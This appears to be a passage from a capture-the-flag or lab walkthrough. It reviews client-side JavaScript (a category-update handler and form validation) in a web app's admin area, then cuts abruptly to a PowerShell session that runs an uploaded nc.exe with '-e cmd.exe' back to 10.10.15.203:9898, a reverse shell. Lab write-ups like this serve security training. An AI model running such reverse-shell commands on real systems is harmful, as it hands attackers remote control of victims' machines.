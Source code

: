 ```js
function updateCategory(id) {
	document.getElementById("categoryId").value = id;
	document.forms["categoryOptions"].action = "update_category.php";
	document.forms["categoryOptions"].submit();
}
```

Plus, /assets/js/checkvalues.js implements some client-side checks for the validity of user supplied input, a probable indicator of custom code running in the web application’s Admin area where those product-related PHP pages can be accessed:

```js
function checkValues(form) {
   if (form == "updateProduct") {
      var name = document.forms["updateProduct"]["name"].value;
      var quantity = document.forms["updateProduct"]["quantity"].value;
      var price = document.forms["updateProduct"]["price"].value;
      if (name.length <= 0) {
         alert("Name cannot be empty!");
         return false;
      }
      if (quantity < 0 || quantity == "") {
         alert("Quantity cannot be less than 0!");
         return false;
      }
      if (price == 0 || price.includes("-")) {
         alert("Price must be greater than 0");
         return false;
      }
   } else if (form == "createProduct") {
      var name = document.forms["createProduct"]["name"].value;
      var quantity = document.forms["createProduct"]["quantity"].value;
      var price = document.forms["createProduct"]["price"].value;
      if (name.length <= 0) {
         alert("Name cannot be empty!");
         return false;
      }
      if (quantity < 0 || quantity == "") {
         alert("Quantity cannot be less than 0!");
         return false;
      }
      if (price == 0 || price.includes("-")) {
         alert("Price must be greater than 0");
         return false;
      }
   } else if (form == "createCategory") {
      var name = document.forms["createCategory"]["name"].value;
      if (name.length <= 0) {
         alert("Name cannot be empty!");
         return false;
      }
   } else if (form == "updateCategory") {
      var name = document.forms["updateCategory"]["name"].value;
      if (name.length <= 0) {
         alert("Name cannot be empty!");
         return false;
      }
   }
   return true;
}
```


[localhost]: PS C:\Users\Hector\Documents> whoami
[localhost]: PS C:\Users\Hector\Documents>
[localhost]: PS C:\Users\Hector\Documents> Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\uploads\nc.exe -e cmd.exe 10.10.15.203 9898 }